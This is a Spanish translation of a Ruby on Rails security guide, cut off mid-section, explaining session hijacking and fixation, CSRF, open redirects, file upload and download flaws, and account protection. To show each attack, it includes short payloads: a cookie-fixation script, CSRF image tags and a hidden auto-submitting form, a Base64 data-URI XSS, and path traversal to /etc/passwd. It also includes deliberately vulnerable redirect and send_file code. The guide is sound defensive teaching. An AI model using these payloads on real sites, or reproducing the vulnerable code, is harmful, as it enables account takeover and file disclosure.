


1 Introducción
Los frameworks de aplicaciones web están hechos para ayudar a los desarrolladores a construir aplicaciones web. Algunos de ellos también te ayudan a asegurar la aplicación web. De hecho, un framework no es más seguro que otro: si lo usas correctamente, podrás construir aplicaciones seguras con muchos frameworks. Ruby on Rails tiene algunos métodos auxiliares ingeniosos, por ejemplo, contra la inyección SQL, por lo que esto difícilmente es un problema.
En general, no existe algo así como la seguridad plug-n-play. La seguridad depende de las personas que usan el framework, y a veces del método de desarrollo. Y depende de todas las capas de un entorno de aplicación web: el almacenamiento de back-end, el servidor web y la aplicación web en sí (y posiblemente otras capas o aplicaciones).
Sin embargo, el Grupo Gartner estima que el 75% de los ataques se producen en la capa de la aplicación web, y descubrió "que de 300 sitios auditados, el 97% son vulnerables a ataques". Esto se debe a que las aplicaciones web son relativamente fáciles de atacar, ya que son simples de entender y manipular, incluso por personas no expertas.
Las amenazas contra las aplicaciones web incluyen el secuestro de cuentas de usuario, eludir el control de acceso, leer o modificar datos sensibles o presentar contenido fraudulento. O un atacante podría ser capaz de instalar un programa troyano o software de envío de correos electrónicos no solicitados, apuntar a un enriquecimiento financiero o causar daño al nombre de la marca modificando los recursos de la empresa. Para prevenir ataques, minimizar su impacto y eliminar puntos de ataque, primero debes comprender completamente los métodos de ataque para encontrar las contramedidas correctas. Eso es lo que esta guía pretende.
Para desarrollar aplicaciones web seguras, debes mantenerte actualizado en todas las capas y conocer a tus enemigos. Para mantenerte actualizado, suscríbete a listas de correo de seguridad, lee blogs de seguridad y haz que las actualizaciones y los chequeos de seguridad sean un hábito (consulta el capítulo de Recursos Adicionales). Esto se hace manualmente porque así es como encuentras los problemas de seguridad lógica desagradables.
2 Sesiones
Este capítulo describe algunos ataques particulares relacionados con las sesiones y medidas de seguridad para proteger tus datos de sesión.
2.1 ¿Qué son las Sesiones?
Las sesiones permiten que la aplicación mantenga un estado específico del usuario mientras interactúa con la aplicación. Por ejemplo, las sesiones permiten a los usuarios autenticarse una vez y permanecer conectados para futuras solicitudes.
La mayoría de las aplicaciones necesitan realizar un seguimiento del estado para los usuarios que interactúan con la aplicación. Esto podría ser el contenido de una cesta de compras o el ID de usuario del usuario actualmente conectado. Este tipo de estado específico del usuario puede almacenarse en la sesión.
Rails proporciona un objeto de sesión para cada usuario que accede a la aplicación. Si el usuario ya tiene una sesión activa, Rails utiliza la sesión existente. De lo contrario, se crea una nueva sesión.
NOTA: Lee más sobre sesiones y cómo usarlas en Guía de Resumen del Controlador de Acción.
2.2 Secuestro de Sesión
ADVERTENCIA: Robar el ID de sesión de un usuario permite a un atacante usar la aplicación web en nombre de la víctima.
Muchas aplicaciones web tienen un sistema de autenticación: un usuario proporciona un nombre de usuario y contraseña, la aplicación web los verifica y almacena el ID de usuario correspondiente en el hash de sesión. A partir de ahora, la sesión es válida. En cada solicitud, la aplicación cargará al usuario, identificado por el ID de usuario en la sesión, sin necesidad de una nueva autenticación. El ID de sesión en la cookie identifica la sesión.
Por lo tanto, la cookie sirve como una autenticación temporal para la aplicación web. Cualquiera que se apodere de una cookie de otra persona, puede usar la aplicación web como este usuario, con posiblemente graves consecuencias. Aquí hay algunas formas de secuestrar una sesión y sus contramedidas:
Olfatear la cookie en una red insegura. Una LAN inalámbrica puede ser un ejemplo de tal red. En una LAN inalámbrica no cifrada, es especialmente fácil escuchar el tráfico de todos los clientes conectados. Para el constructor de aplicaciones web, esto significa proporcionar una conexión segura a través de SSL. En Rails 3.1 y versiones posteriores, esto podría lograrse forzando siempre la conexión SSL en tu archivo de configuración de la aplicación:
config.force_ssl = trueLa mayoría de las personas no limpian las cookies después de trabajar en un terminal público. Entonces, si el último usuario no cerró sesión en una aplicación web, podrías usarla como este usuario. Proporciona al usuario un botón de cierre de sesión en la aplicación web y hazlo prominente.
Muchos exploits de cross-site scripting (XSS) tienen como objetivo obtener la cookie del usuario. Leerás más sobre XSS más adelante.
En lugar de robar una cookie desconocida para el atacante, fijan un identificador de sesión de usuario (en la cookie) conocido por ellos. Lee más sobre esta llamada fijación de sesión más adelante.
2.3 Almacenamiento de Sesión
NOTA: Rails utiliza ActionDispatch::Session::CookieStore como el almacenamiento de sesión predeterminado.
CONSEJO: Aprende más sobre otros almacenamientos de sesión en Guía de Resumen del Controlador de Acción.
Rails CookieStore guarda el hash de sesión en una cookie en el lado del cliente.
El servidor recupera el hash de sesión de la cookie y
elimina la necesidad de un ID de sesión. Eso aumentará enormemente la
velocidad de la aplicación, pero es una opción de almacenamiento controvertida y
tienes que pensar en las implicaciones de seguridad y las limitaciones de almacenamiento de ella:
Las cookies tienen un límite de tamaño de 4 kB. Usa cookies solo para datos que sean relevantes para la sesión.
Las cookies se almacenan en el lado del cliente. El cliente puede preservar el contenido de la cookie incluso para cookies expiradas. El cliente puede copiar cookies a otras máquinas. Evita almacenar datos sensibles en cookies.
Las cookies son temporales por naturaleza. El servidor puede establecer un tiempo de expiración para la cookie, pero el cliente puede eliminar la cookie y su contenido antes de eso. Persiste todos los datos que son de naturaleza más permanente en el lado del servidor.
Las cookies de sesión no se invalidan por sí mismas y pueden ser reutilizadas maliciosamente. Podría ser una buena idea que tu aplicación invalide las cookies de sesión antiguas usando una marca de tiempo almacenada.
Rails cifra las cookies por defecto. El cliente no puede leer ni editar el contenido de la cookie, sin romper la encriptación. Si cuidas adecuadamente tus secretos, puedes considerar que tus cookies están generalmente seguras.
El CookieStore utiliza el
tarro de cookies cifradas
para proporcionar un lugar seguro y cifrado para almacenar datos de sesión. Las sesiones basadas en cookies, por lo tanto, proporcionan tanto integridad como confidencialidad a sus contenidos. La clave de encriptación, así como la clave de verificación utilizada para
cookies firmadas,
se deriva de la configuración secret_key_base.
CONSEJO: Los secretos deben ser largos y aleatorios. Usa bin/rails secret para obtener nuevos secretos únicos.
Aprende más sobre gestión de credenciales más adelante en esta guía
También es importante usar diferentes valores de sal para cookies cifradas y firmadas. Usar el mismo valor para diferentes configuraciones de sal puede llevar a que se use la misma clave derivada para diferentes características de seguridad, lo que a su vez puede debilitar la fuerza de la clave.
En aplicaciones de prueba y desarrollo, se obtiene una secret_key_base derivada del nombre de la aplicación. Otros entornos deben usar una clave aleatoria presente en config/credentials.yml.enc, mostrada aquí en su estado descifrado:
secret_key_base: 492f...
ADVERTENCIA: Si los secretos de tu aplicación pueden haber sido expuestos, considera seriamente cambiarlos. Ten en cuenta que cambiar secret_key_base expirará las sesiones actualmente activas y requerirá que todos los usuarios inicien sesión nuevamente. Además de los datos de sesión: las cookies cifradas, las cookies firmadas y los archivos de Active Storage también pueden verse afectados.
2.4 Rotación de Configuraciones de Cookies Cifradas y Firmadas
La rotación es ideal para cambiar configuraciones de cookies y asegurar que las cookies antiguas no sean inmediatamente inválidas. Tus usuarios entonces tienen la oportunidad de visitar tu sitio, hacer que su cookie se lea con una configuración antigua y que se reescriba con el nuevo cambio. La rotación puede eliminarse una vez que estés seguro de que suficientes usuarios han tenido la oportunidad de actualizar sus cookies.
Es posible rotar los cifrados y digestos utilizados para cookies cifradas y firmadas.
Por ejemplo, para cambiar el digesto utilizado para cookies firmadas de SHA1 a SHA256, primero asignarías el nuevo valor de configuración:
Rails.application.config.action_dispatch.signed_cookie_digest = "SHA256"
Ahora agrega una rotación para el antiguo digesto SHA1 para que las cookies existentes sean actualizadas sin problemas al nuevo digesto SHA256.
Rails.application.config.action_dispatch.cookies_rotations.tap do |cookies|
cookies.rotate :signed, digest: "SHA1"
end
Entonces, cualquier cookie firmada escrita será digerida con SHA256. Las cookies antiguas que fueron escritas con SHA1 aún se pueden leer, y si se accede a ellas, se escribirán con el nuevo digesto para que se actualicen y no sean inválidas cuando elimines la rotación.
Una vez que los usuarios con cookies firmadas digeridas con SHA1 ya no deberían tener la oportunidad de tener sus cookies reescritas, elimina la rotación.
Aunque puedes configurar tantas rotaciones como desees, no es común tener muchas rotaciones activas al mismo tiempo.
Para más detalles sobre la rotación de claves con mensajes cifrados y firmados, así como las opciones que acepta el método rotate, consulta la documentación de
MessageEncryptor API
y
MessageVerifier API.
2.5 Ataques de Repetición para Sesiones de CookieStore
CONSEJO: Otro tipo de ataque del que debes estar consciente al usar CookieStore es el ataque de repetición.
Funciona así:
- Un usuario recibe créditos, la cantidad se almacena en una sesión (lo cual es una mala idea de todos modos, pero haremos esto con fines de demostración).
- El usuario compra algo.
- El nuevo valor de crédito ajustado se almacena en la sesión.
- El usuario toma la cookie del primer paso (que copió previamente) y reemplaza la cookie actual en el navegador.
- El usuario tiene su crédito original de vuelta.
Incluir un nonce (un valor aleatorio) en la sesión resuelve los ataques de repetición. Un nonce es válido solo una vez, y el servidor debe llevar un registro de todos los nonces válidos. Se vuelve aún más complicado si tienes varios servidores de aplicaciones. Almacenar nonces en una tabla de base de datos derrotaría todo el propósito de CookieStore (evitar acceder a la base de datos).
La mejor solución contra esto es no almacenar este tipo de datos en una sesión, sino en la base de datos. En este caso, almacena el crédito en la base de datos y el logged_in_user_id en la sesión.
2.6 Fijación de Sesión
NOTA: Aparte de robar un ID de sesión de usuario, el atacante puede fijar un ID de sesión conocido por ellos. Esto se llama fijación de sesión.

Este ataque se centra en fijar un ID de sesión de usuario conocido por el atacante y forzar el navegador del usuario a usar este ID. Por lo tanto, no es necesario que el atacante robe el ID de sesión después. Así es como funciona este ataque:
- El atacante crea un ID de sesión válido: carga la página de inicio de sesión de la aplicación web donde quiere fijar la sesión y toma el ID de sesión en la cookie de la respuesta (ver números 1 y 2 en la imagen).
- Mantienen la sesión accediendo periódicamente a la aplicación web para mantener viva una sesión que expira.
- El atacante fuerza el navegador del usuario a usar este ID de sesión (ver número 3 en la imagen). Como no puedes cambiar una cookie de otro dominio (debido a la política de mismo origen), el atacante tiene que ejecutar un JavaScript desde el dominio de la aplicación web objetivo. Inyectar el código JavaScript en la aplicación mediante XSS logra este ataque. Aquí hay un ejemplo:
<script>document.cookie="_session_id=16d5b78abb28e3d6206b60f22a03c8d9";</script>. Lee más sobre XSS e inyección más adelante. - El atacante atrae a la víctima a la página infectada con el código JavaScript. Al ver la página, el navegador de la víctima cambiará el ID de sesión al ID de sesión trampa.
- Como la nueva sesión trampa no se usa, la aplicación web requerirá que el usuario se autentique.
- A partir de ahora, la víctima y el atacante co-usarán la aplicación web con la misma sesión: la sesión se volvió válida y la víctima no notó el ataque.
2.7 Fijación de Sesión - Contramedidas
CONSEJO: Una línea de código te protegerá de la fijación de sesión.
La contramedida más efectiva es emitir un nuevo identificador de sesión y declarar el antiguo como inválido después de un inicio de sesión exitoso. De esa manera, un atacante no puede usar el identificador de sesión fijado. Esta es también una buena contramedida contra el secuestro de sesión. Aquí está cómo crear una nueva sesión en Rails:
reset_session
Si usas la popular gema Devise para la gestión de usuarios, automáticamente expirará las sesiones al iniciar y cerrar sesión por ti. Si lo haces por tu cuenta, recuerda expirar la sesión después de tu acción de inicio de sesión (cuando se crea la sesión). Esto eliminará valores de la sesión, por lo tanto, tendrás que transferirlos a la nueva sesión.
Otra contramedida es guardar propiedades específicas del usuario en la sesión, verificarlas cada vez que llega una solicitud y denegar el acceso si la información no coincide. Dichas propiedades podrían ser la dirección IP remota o el agente de usuario (el nombre del navegador web), aunque este último es menos específico del usuario. Al guardar la dirección IP, debes tener en cuenta que hay proveedores de servicios de Internet u organizaciones grandes que colocan a sus usuarios detrás de proxies. Estos podrían cambiar durante el transcurso de una sesión, por lo que estos usuarios no podrán usar tu aplicación, o solo de manera limitada.
2.8 Expiración de Sesión
NOTA: Las sesiones que nunca expiran extienden el marco de tiempo para ataques como la falsificación de solicitudes entre sitios (CSRF), el secuestro de sesión y la fijación de sesión.
Una posibilidad es establecer la marca de tiempo de expiración de la cookie con el ID de sesión. Sin embargo, el cliente puede editar cookies que se almacenan en el navegador web, por lo que expirar sesiones en el servidor es más seguro. Aquí hay un ejemplo de cómo expirar sesiones en una tabla de base de datos. Llama a Session.sweep(20.minutes) para expirar sesiones que se usaron hace más de 20 minutos.
class Session < ApplicationRecord
def self.sweep(time = 1.hour)
where(updated_at: ...time.ago).delete_all
end
end
La sección sobre fijación de sesión introdujo el problema de las sesiones mantenidas. Un atacante que mantiene una sesión cada cinco minutos puede mantener la sesión viva para siempre, aunque estés expirando sesiones. Una solución simple para esto sería agregar una columna created_at a la tabla de sesiones. Ahora puedes eliminar sesiones que se crearon hace mucho tiempo. Usa esta línea en el método sweep anterior:
where(updated_at: ...time.ago).or(where(created_at: ...2.days.ago)).delete_all
3 Falsificación de Solicitud entre Sitios (CSRF)
Este método de ataque funciona al incluir código malicioso o un enlace en una página que accede a una aplicación web en la que se cree que el usuario ha autenticado. Si la sesión para esa aplicación web no ha expirado, un atacante puede ejecutar comandos no autorizados.

En el capítulo de sesiones has aprendido que la mayoría de las aplicaciones Rails usan sesiones basadas en cookies. Ya sea que almacenen el ID de sesión en la cookie y tengan un hash de sesión en el lado del servidor, o todo el hash de sesión esté en el lado del cliente. En cualquier caso, el navegador enviará automáticamente la cookie en cada solicitud a un dominio, si puede encontrar una cookie para ese dominio. El punto controversial es que si la solicitud proviene de un sitio de un dominio diferente, también enviará la cookie. Comencemos con un ejemplo:
- Bob navega por un foro de mensajes y ve una publicación de un hacker donde hay un elemento de imagen HTML diseñado. El elemento hace referencia a un comando en la aplicación de gestión de proyectos de Bob, en lugar de un archivo de imagen:
<img src="http://www.webapp.com/project/1/destroy"> - La sesión de Bob en
www.webapp.comaún está activa, porque no cerró sesión hace unos minutos. - Al ver la publicación, el navegador encuentra una etiqueta de imagen. Intenta cargar la imagen sospechosa desde
www.webapp.com. Como se explicó antes, también enviará la cookie con el ID de sesión válido. - La aplicación web en
www.webapp.comverifica la información del usuario en el hash de sesión correspondiente y destruye el proyecto con el ID 1. Luego devuelve una página de resultado que es un resultado inesperado para el navegador, por lo que no mostrará la imagen. - Bob no nota el ataque, pero unos días después descubre que el proyecto número uno ha desaparecido.
Es importante notar que la imagen o enlace diseñado no necesariamente tiene que estar situado en el dominio de la aplicación web, puede estar en cualquier lugar, en un foro, publicación de blog o correo electrónico.
CSRF aparece muy raramente en CVE (Vulnerabilidades y Exposiciones Comunes), menos del 0.1% en 2006, pero realmente es un 'gigante dormido' [Grossman]. Esto está en marcado contraste con los resultados en muchos trabajos de contratos de seguridad: CSRF es un problema de seguridad importante.
3.1 Contramedidas de CSRF
NOTA: Primero, como lo requiere el W3C, usa GET y POST apropiadamente. En segundo lugar, un token de seguridad en solicitudes no-GET protegerá tu aplicación de CSRF.
3.1.1 Usa GET y POST Apropiadamente
El protocolo HTTP básicamente proporciona dos tipos principales de solicitudes: GET y POST (DELETE, PUT y PATCH deben usarse como POST). El Consorcio World Wide Web (W3C) proporciona una lista de verificación para elegir HTTP GET o POST:
Usa GET si:
- La interacción es más como una pregunta (es decir, es una operación segura como una consulta, operación de lectura o búsqueda).
Usa POST si:
- La interacción es más como una orden, o
- La interacción cambia el estado del recurso de una manera que el usuario percibiría (por ejemplo, una suscripción a un servicio), o
- El usuario es responsable de los resultados de la interacción.
Si tu aplicación web es RESTful, podrías estar acostumbrado a verbos HTTP adicionales, como PATCH, PUT o DELETE. Sin embargo, algunos navegadores web heredados no los soportan, solo GET y POST. Rails utiliza un campo oculto _method para manejar estos casos.
Las solicitudes POST también se pueden enviar automáticamente. En este ejemplo, el enlace www.harmless.com se muestra como el destino en la barra de estado del navegador. Pero en realidad ha creado dinámicamente un nuevo formulario que envía una solicitud POST.
<a href="http://www.harmless.com/" onclick="
var f = document.createElement('form');
f.style.display = 'none';
this.parentNode.appendChild(f);
f.method = 'POST';
f.action = 'http://www.example.com/account/destroy';
f.submit();
return false;">To the harmless survey</a>
O el atacante coloca el código en el controlador de eventos onmouseover de una imagen:
<img src="http://www.harmless.com/img" width="400" height="400" onmouseover="..." />
Hay muchas otras posibilidades, como usar una etiqueta <script> para hacer una solicitud de sitio cruzado a una URL con una respuesta JSONP o JavaScript. La respuesta es un código ejecutable que el atacante puede encontrar una manera de ejecutar, posiblemente extrayendo datos sensibles. Para protegerse contra esta fuga de datos, debemos deshabilitar las etiquetas <script> de sitio cruzado. Sin embargo, las solicitudes Ajax obedecen la política de mismo origen del navegador (solo tu propio sitio puede iniciar XmlHttpRequest), por lo que podemos permitirles devolver respuestas JavaScript de manera segura.
NOTA: No podemos distinguir el origen de una etiqueta <script>—si es una etiqueta en tu propio sitio o en algún otro sitio malicioso—por lo que debemos bloquear todas las <script> en general, incluso si en realidad es un script seguro de mismo origen servido desde tu propio sitio. En estos casos, omite explícitamente la protección CSRF en acciones que sirvan JavaScript destinado a una etiqueta <script>.
3.1.2 Token de Seguridad Requerido
Para protegerse contra todas las demás solicitudes falsificadas, introducimos un token de seguridad requerido que nuestro sitio conoce pero que otros sitios no conocen. Incluimos el token de seguridad en las solicitudes y lo verificamos en el servidor. Esto se hace automáticamente cuando config.action_controller.default_protect_from_forgery está configurado en true, que es el valor predeterminado para las aplicaciones Rails recién creadas. También puedes hacerlo manualmente agregando lo siguiente a tu controlador de aplicación:
protect_from_forgery with: :exception
Esto incluirá un token de seguridad en todos los formularios generados por Rails. Si el token de seguridad no coincide con lo esperado, se lanzará una excepción.
Al enviar formularios con Turbo, el
token de seguridad también es necesario. Turbo busca el token en las etiquetas
meta csrf de tu diseño de aplicación y lo agrega a la solicitud en el
encabezado de solicitud X-CSRF-Token. Estas etiquetas meta se crean con el
método auxiliar csrf_meta_tags:
<head>
<%= csrf_meta_tags %>
</head>
lo que resulta en:
<head>
<meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="THE-TOKEN" />
</head>
Al hacer tus propias solicitudes no-GET desde JavaScript, el token de seguridad también es requerido. Rails Request.JS es una biblioteca de JavaScript que encapsula la lógica de agregar los encabezados de solicitud requeridos.
Al usar otra biblioteca para hacer llamadas Ajax, es necesario agregar el token de seguridad como un encabezado predeterminado tú mismo. Para obtener el token de la etiqueta meta podrías hacer algo como:
document.head.querySelector("meta[name=csrf-token]")?.content
3.1.3 Borrado de Cookies Persistentes
Es común usar cookies persistentes para almacenar información del usuario, con cookies.permanent por ejemplo. En este caso, las cookies no se borrarán y la protección CSRF de fábrica no será efectiva. Si estás usando un almacenamiento de cookies diferente al de la sesión para esta información, debes manejar qué hacer con ella tú mismo:
rescue_from ActionController::InvalidAuthenticityToken do |exception|
sign_out_user # Método de ejemplo que destruirá las cookies del usuario
end
El método anterior puede colocarse en el ApplicationController y se llamará cuando un token CSRF no esté presente o sea incorrecto en una solicitud no-GET.
Ten en cuenta que las vulnerabilidades de cross-site scripting (XSS) eluden todas las protecciones CSRF. XSS le da al atacante acceso a todos los elementos en una página, por lo que pueden leer el token de seguridad CSRF de un formulario o enviar el formulario directamente. Lee más sobre XSS más adelante.
4 Redirección y Archivos
Otra clase de vulnerabilidades de seguridad rodea el uso de redirección y archivos en aplicaciones web.
4.1 Redirección
ADVERTENCIA: La redirección en una aplicación web es una herramienta de cracker subestimada: no solo el atacante puede redirigir al usuario a un sitio trampa, sino que también puede crear un ataque autónomo.
Siempre que se permita al usuario pasar (partes de) la URL para redireccionar, es posiblemente vulnerable. El ataque más obvio sería redirigir a los usuarios a una aplicación web falsa que se vea y se sienta exactamente como la original. Este ataque de phishing funciona enviando un enlace no sospechoso en un correo electrónico a los usuarios, inyectando el enlace mediante XSS en la aplicación web o colocando el enlace en un sitio externo. No es sospechoso, porque el enlace comienza con la URL de la aplicación web y la URL del sitio malicioso está oculta en el parámetro de redirección: http://www.example.com/site/redirect?to=www.attacker.com. Aquí hay un ejemplo de una acción heredada:
def legacy
redirect_to(params.update(action: 'main'))
end
Esto redirigirá al usuario a la acción principal si intentaron acceder a una acción heredada. La intención era preservar los parámetros de URL para la acción heredada y pasarlos a la acción principal. Sin embargo, puede ser explotado por un atacante si incluyeron una clave de host en la URL:
http://www.example.com/site/legacy?param1=xy¶m2=23&host=www.attacker.com
Si está al final de la URL, apenas se notará y redirige al usuario al host attacker.com. Como regla general, pasar la entrada del usuario directamente a redirect_to se considera peligroso. Una contramedida simple sería incluir solo los parámetros esperados en una acción heredada (nuevamente un enfoque de lista permitida, en lugar de eliminar parámetros inesperados). Y si rediriges a una URL, compruébala con una lista permitida o una expresión regular.
4.1.1 XSS Autónomo
Otro ataque de redirección y XSS autónomo funciona en Firefox y Opera mediante el uso del protocolo de datos. Este protocolo muestra su contenido directamente en el navegador y puede ser cualquier cosa, desde HTML o JavaScript hasta imágenes completas:
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
Este ejemplo es un JavaScript codificado en Base64 que muestra una simple caja de mensaje. En una URL de redirección, un atacante podría redirigir a esta URL con el código malicioso en ella. Como contramedida, no permitas que el usuario proporcione (partes de) la URL a la que se va a redirigir.
4.2 Cargas de Archivos
NOTA: Asegúrate de que las cargas de archivos no sobrescriban archivos importantes y procesa los archivos multimedia de forma asíncrona.
Muchas aplicaciones web permiten a los usuarios cargar archivos. Los nombres de archivo, que el usuario puede elegir (en parte), siempre deben ser filtrados ya que un atacante podría usar un nombre de archivo malicioso para sobrescribir cualquier archivo en el servidor. Si almacenas cargas de archivos en /var/www/uploads, y el usuario ingresa un nombre de archivo como "../../../etc/passwd", podría sobrescribir un archivo importante. Por supuesto, el intérprete de Ruby necesitaría los permisos apropiados para hacerlo, una razón más para ejecutar servidores web, servidores de bases de datos y otros programas como un usuario Unix menos privilegiado.
Al filtrar nombres de archivo de entrada del usuario, no intentes eliminar partes maliciosas. Piensa en una situación donde la aplicación web elimina todos los "../" en un nombre de archivo y un atacante usa una cadena como "....//", el resultado será "../". Es mejor usar un enfoque de lista permitida, que verifica la validez de un nombre de archivo con un conjunto de caracteres aceptados. Esto se opone a un enfoque de lista restringida que intenta eliminar caracteres no permitidos. En caso de que no sea un nombre de archivo válido, recházalo (o reemplaza los caracteres no aceptados), pero no los elimines. Aquí está el sanitizador de nombres de archivo del plugin attachment_fu:
def sanitize_filename(filename)
filename.strip.tap do |name|
# NOTA: File.basename no funciona bien con rutas de Windows en Unix
# obtener solo el nombre del archivo, no toda la ruta
name.sub!(/\A.*(\\|\/)/, '')
# Finalmente, reemplaza todos los caracteres no alfanuméricos, guiones bajos
# o puntos con guiones bajos
name.gsub!(/[^\w.-]/, '_')
end
end
Una desventaja importante del procesamiento sincrónico de cargas de archivos (como el plugin attachment_fu puede hacer con imágenes), es su vulnerabilidad a ataques de denegación de servicio. Un atacante puede iniciar de manera sincrónica cargas de archivos de imagen desde muchas computadoras, lo que aumenta la carga del servidor y puede eventualmente bloquear o detener el servidor.
La mejor solución para esto es procesar archivos multimedia de forma asíncrona: Guarda el archivo multimedia y programa una solicitud de procesamiento en la base de datos. Un segundo proceso se encargará del procesamiento del archivo en segundo plano.
4.3 Código Ejecutable en Cargas de Archivos
ADVERTENCIA: El código fuente en archivos cargados puede ejecutarse cuando se coloca en directorios específicos. No coloques cargas de archivos en el directorio /public de Rails si es el directorio raíz de Apache.
El popular servidor web Apache tiene una opción llamada DocumentRoot. Este es el directorio raíz del sitio web, todo en este árbol de directorios será servido por el servidor web. Si hay archivos con una cierta extensión de nombre de archivo, el código en ellos se ejecutará cuando se solicite (podría requerir que se configuren algunas opciones). Ejemplos de esto son archivos PHP y CGI. Ahora piensa en una situación donde un atacante carga un archivo "file.cgi" con código en él, que se ejecutará cuando alguien descargue el archivo.
Si tu DocumentRoot de Apache apunta al directorio /public de Rails, no pongas cargas de archivos en él, almacena archivos al menos un nivel más arriba.
4.4 Descargas de Archivos
NOTA: Asegúrate de que los usuarios no puedan descargar archivos arbitrarios.
Así como debes filtrar nombres de archivo para cargas, debes hacerlo para descargas. El método send_file() envía archivos desde el servidor al cliente. Si usas un nombre de archivo que el usuario ingresó sin filtrar, cualquier archivo puede descargarse:
send_file('/var/www/uploads/' + params[:filename])
Simplemente pasa un nombre de archivo como "../../../etc/passwd" para descargar la información de inicio de sesión del servidor. Una solución simple contra esto es verificar que el archivo solicitado esté en el directorio esperado:
basename = File.expand_path('../../files', __dir__)
filename = File.expand_path(File.join(basename, @file.public_filename))
raise if basename != File.expand_path(File.dirname(filename))
send_file filename, disposition: 'inline'
Otro enfoque (adicional) es almacenar los nombres de archivo en la base de datos y nombrar los archivos en el disco según los IDs en la base de datos. Este también es un buen enfoque para evitar que el código posible en un archivo cargado se ejecute. El plugin attachment_fu hace esto de manera similar.
5 Gestión de Usuarios
NOTA: Casi todas las aplicaciones web tienen que lidiar con autorización y autenticación. En lugar de hacer la tuya propia, es aconsejable usar complementos comunes. Pero mantenlos actualizados, también. Algunas precauciones adicionales pueden hacer que tu aplicación sea aún más segura.
Hay una serie de complementos de autenticación para Rails disponibles. Los buenos, como los populares devise y authlogic, solo almacenan contraseñas cifradas criptográficamente, no contraseñas en texto plano. Desde Rails 3.1 también puedes usar el método incorporado has_secure_password que admite hashing seguro de contraseñas, confirmación y mecanismos de recuperación.
5.1 Fuerza Bruta de Cuentas
NOTA: Los ataques de fuerza bruta en cuentas son ataques de prueba y error en las credenciales de inicio de sesión. Defiéndete de ellos con mensajes de error más genéricos y posiblemente requiere ingresar un CAPTCHA.
Una lista de nombres de usuario para tu aplicación web puede ser mal utilizada para forzar brutalmente las contraseñas correspondientes, porque la mayoría de las personas no usan contraseñas sofisticadas. La mayoría de las contraseñas son una combinación de palabras del diccionario y posiblemente números. Entonces, armado con una lista de nombres de usuario y un diccionario, un programa automático puede encontrar la contraseña correcta en cuestión de minutos.
Debido a esto, la mayoría de las aplicaciones web mostrarán un mensaje de error genérico "nombre de usuario o contraseña incorrectos", si uno de estos no es correcto. Si dijera "el nombre de usuario que ingresaste no se ha encontrado", un atacante podría compilar automáticamente una lista de nombres de usuario.
Sin embargo, lo que la mayoría de los diseñadores de aplicaciones web descuidan son las páginas de recuperación de contraseña. Estas páginas a menudo admiten que el nombre de usuario o la dirección de correo electrónico ingresados (no) se han encontrado. Esto permite a un atacante compilar una lista de nombres de usuario y forzar brutalmente las cuentas.
Para mitigar tales ataques, muestra un mensaje de error genérico en las páginas de recuperación de contraseña, también. Además, puedes requerir ingresar un CAPTCHA después de un número de inicios de sesión fallidos desde una cierta dirección IP. Nota, sin embargo, que esta no es una solución a prueba de balas contra programas automáticos, porque estos programas pueden cambiar su dirección IP exactamente con la misma frecuencia. Sin embargo, eleva la barrera de un ataque.
5.2 Secuestro de Cuenta
Muchas aplicaciones web facilitan el secuestro de cuentas de usuario. ¿Por qué no ser diferente y hacerlo más difícil?.
5.2.1 Contraseñas
Piensa en una situación donde un atacante ha robado la cookie de sesión de un usuario y, por lo tanto, puede co-usar la aplicación. Si es fácil cambiar la contraseña, el atacante secuestrará la cuenta con unos pocos clics. O si el formulario de cambio de contraseña es vulnerable a CSRF, el atacante podrá cambiar la contraseña de la víctima atrayéndola a una página web donde hay una etiqueta IMG diseñada que hace el CSRF. Como contramedida, haz que los formularios de cambio de contraseña sean seguros contra CSRF, por supuesto. Y requiere que el usuario ingrese la contraseña antigua al cambiarla.
5.2.2 Correo Electrónico
Sin embargo, el atacante también puede tomar el control de la cuenta cambiando la dirección de correo electrónico. Después de cambiarla, irá a la página de contraseña olvidada y la contraseña (posiblemente nueva) se enviará a la dirección de correo electrónico del atacante. Como contramedida, requiere que el usuario ingrese la contraseña al cambiar la dirección de correo electrónico, también.
5.2.3 Otro
Dependiendo de tu aplicación web, puede haber más formas de secuestrar la cuenta del usuario. En muchos casos, CSRF y XSS ayudarán a hacerlo. Por ejemplo, como en una vulnerabilidad CSRF en Google Mail. En este ataque de prueba de concepto, la víctima habría sido atraída a un sitio web controlado por el atacante. En ese sitio hay una etiqueta IMG diseñada que resulta en una solicitud HTTP GET que cambia la configuración de filtros de Google Mail. Si la víctima estaba conectada a Google Mail, el atacante cambiaría los filtros para reenviar todos los correos electrónicos a su dirección de correo electrónico. Esto es casi tan perjudicial como secuestrar toda la cuenta. Como contramedida, revisa la lógica de tu aplicación y elimina todas las vulnerabilidades de XSS y CSRF.
5.3 CAPTCHAs
Un CAPTCHA es una prueba de desafío-respuesta para determinar que la respuesta no es generada por una computadora. A menudo se usa para proteger formularios de registro de atacantes y formularios de comentarios de bots de spam automáticos pidiendo al usuario que escriba las letras de una imagen distorsionada. Este es el CAPTCHA positivo, pero también existe el CAPTCHA negativo. La idea de un CAPTCHA negativo no es que un usuario demuestre que es humano, sino revelar que un robot es un robot.
Una API de CAPTCHA positivo popular es reCAPTCHA que muestra dos imágenes distorsionadas de palabras de libros antiguos. También agrega una línea inclinada, en lugar de un fondo distorsionado y altos niveles de deformación en el texto como lo hacían los CAPTCHAs anteriores, porque estos últimos fueron rotos. Como bono, usar reCAPTCHA ayuda a digitalizar libros antiguos. ReCAPTCHA también es un plugin de Rails con el mismo nombre que la API.
Obtendrás dos claves de la API, una pública y una privada, que debes poner en tu entorno Rails. Después de eso, puedes usar el método recaptcha_tags en la vista, y el método verify_recaptcha en el controlador. Verify_recaptcha devolverá false si la validación falla. El problema con los CAPTCHAs es que tienen un impacto negativo en la experiencia del usuario. Además, algunos usuarios con discapacidad visual han encontrado ciertos tipos de CAPTCHAs distorsionados difíciles de leer. Aún así, los CAPTCHAs positivos son uno de los mejores métodos para prevenir todo tipo de bots de enviar formularios.
La mayoría de los bots son realmente ingenuos. Rastrean la web y ponen su spam en cada campo de formulario que pueden encontrar. Los CAPTCHAs negativos aprovechan eso e incluyen un campo "honeypot" en el formulario que estará oculto para el usuario humano por CSS o JavaScript.
